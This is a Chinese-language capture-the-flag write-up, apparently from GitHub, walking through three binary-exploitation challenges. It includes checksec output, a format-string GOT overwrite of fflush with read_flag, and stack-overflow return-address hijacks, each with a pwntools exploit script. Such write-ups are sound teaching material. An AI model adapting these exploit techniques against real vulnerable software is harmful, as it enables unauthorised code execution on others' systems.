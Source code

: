 # 远程攻击1
下载文件200，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析程序

首先看下文件类型

    root@kali:/workspace/reverse/18-11-3# file ./200
    ./200: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=073751d99b0de6a34ec06ccb56963079cc82bdd8, not stripped
    
是一个32位可执行文件,运行后要求输入字符串，输完回车后会打印你输入的字符串，输入过长的文本会出现栈溢出提示

    root@kali:/workspace/reverse/18-11-3# ./200
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    *** stack smashing detected ***: <unknown> terminated
    已放弃
    
这里看一下安全措施，准备用栈溢出的套路去做

    root@kali:/workspace/reverse/18-11-3# checksec ./200
    [*] '/workspace/reverse/18-11-3/200'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
有stack canary,也开了NX。我们去分析一下程序，看看怎么过stack canary<br>
首先用IDA看一下<br>
![1.png](./images/1.png)

函数列表里发现了一个read_flag函数，在main函数中直接找到了溢出点。这里我没想出怎么去过stack canary,因为想要在溢出的时候不覆盖cookie值必须要先拿到cookie值，然后再构造payload去做后面的操作。也就是说我们需要程序获取两次我们的输入。这里main函数只获取了一次输入，所以过不了。<br>

不过在分析的时候发现了，scanf函数获取我们的输入，然后直接把这个输入作为printf的参数，调用printf。这里我们尝试可以利用格式化字符串的漏洞。格式化字符串的漏洞可以让我们任意读写内存。我们可以把fflush函数的plt地址改为read_flag函数的地址，这样当程序调用printf下面的fflush函数的时候，程序实际上调用的是read_flag函数。<br>

关于格式化字符串的漏洞，可以看看这篇文章，写的很详细 [格式化字符串漏洞学习](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)
<br>

0x2 编写攻击程序

首先拿两个函数的地址，一个是fflush的PLT地址,一个是read_flag的地址，不知道为什么要PLT地址的去百度或谷歌一下函数调用libc函数的过程

    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep fflush
    08048420 <fflush@plt>:
    8048623:	e8 f8 fd ff ff       	call   8048420 <fflush@plt>
    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep read_flag
    0804859b <read_flag>:

我们肯定要把数据放到我们的payload中，然后通过一些方法去使用我们的数据。我们需要知道我们输入的字符串被printf当作是第几个参数。通过在程序中输入%位置$x来找。

    ffroot@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%1$x
    AAAAffb73e88root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%2$x
    AAAAf7f64410root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%3$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%4$x
    AAAA0root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%5$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%6$x
    AAAA41414141root@kali:/workspace/reverse/18-11-3#
    
发现在给程序输入AAAA%6$x时，读到了我们输入的前四个A的ASCII码数值。这意味着printf把我们输入的字符串作为第6个参数。

我们可以用pwntools中的函数来实现这个攻击

    from pwn import *

    fflush=0x804a010
    read_flag=0x804859b
    payload = fmtstr_payload(6,{fflush:read_flag})

    p=remote(ip,port)
    print payload
    p.sendline(payload)
    p.interactive()

运行脚本获得flag


# 远程攻击2
下载文件100，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析

    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    段错误
    root@kali:/workspace/reverse/temp# checksec 100
    [*] '/workspace/reverse/temp/100'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
开启了NX,需要用ROP技术劫持EIP

IDA分析，main函数call了一个val_fun,该函数调用了scanf，是一个溢出点。从函数列表中找到win和read_flag函数，其中win函数call了read_flag函数。尝试劫持EIP至win函数或read_flag函数

![3.png](./images/3.png)
![4.png](./images/4.png)
![5.png](./images/5.png)
0x2 攻击

    from pwn import *

    win=0x8048488
    exit=0xf7e03a30
    payload = "A"*(0x48+4)
    payload += p32(win)
    payload += p32(exit)

    p=remote(ip,port)
    p.sendline(payload)
    p.interactive()

# 远程攻击3

    from pwn import * 
    win_func = 0x80485bd
    hint = 0x80487e0
    ret = 0x0804867a
    conn = process("memory")
    payload = "A"*23
    payload += p32(win_func)
    payload += p32(ret)#clean up     填一个不存在的内存地址会导致崩溃，拿不到flag
    payload += p32(hint)
    payload += '\n'  
    conn.send(payload)
    conn.interactive()